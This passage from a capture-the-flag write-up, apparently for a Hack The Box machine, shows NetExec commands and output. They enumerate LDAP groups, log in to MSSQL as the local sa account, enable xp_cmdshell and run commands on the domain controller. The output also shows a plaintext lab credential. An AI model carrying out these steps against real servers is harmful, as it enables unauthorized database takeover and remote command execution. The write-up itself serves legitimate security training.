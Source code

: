 We now have a valid user and password for the `oscar` user, since `oscar` is not member of any interesting group.

```bash
nxc ldap $FQDN -u $USERAD -p $PASS -M groupmembership -o USER=oscar

LDAP        10.10.11.51     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
GROUPMEM... 10.10.11.51     389    DC01             [+] User: oscar is member of following groups:
GROUPMEM... 10.10.11.51     389    DC01             Accounting Department
GROUPMEM... 10.10.11.51     389    DC01             Domain Users
```

But since there is a `mssql` server running on the target machine, and we found credentials for the `sa` user, we can try to use the `sa` user to connect to the server:

```bash
nxc mssql $FQDN -u sa -p '<REDACTED>'

MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [-] sequel.htb\sa:<REDACTED> (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')

nxc mssql $FQDN -u sa -p '<REDACTED>' --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:<REDACTED> (Pwn3d!)
```

> We need to use the `--local-auth` flag because the `sa` user is a local user, not a domain user. The `sa` user is the default system administrator account for SQL Server, and it has full control over the SQL Server instance.
{: .prompt-info}

And we have access to the `mssql` server with the `sa` user. We can now use `nxc` to run commands on the target machine by enabling `xp_cmdshell`, which is a stored procedure that allows us to run commands on the target machine. 

```bash
nxc mssql $FQDN -u sa -p '<REDACTED>' --local-auth -M enable_cmdshell -o ACTION=enable

[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:<REDACTED> (Pwn3d!)
ENABLE_C... 10.10.11.51     1433   DC01             [+] xp_cmdshell successfully enabled.
```

And we can confirm code execution with the `whoami` command:

```bash
nxc mssql $FQDN -u sa -p '<REDACTED>' --local-auth -x "whoami"

MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:<REDACTED> (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             sequel\sql_svc
```
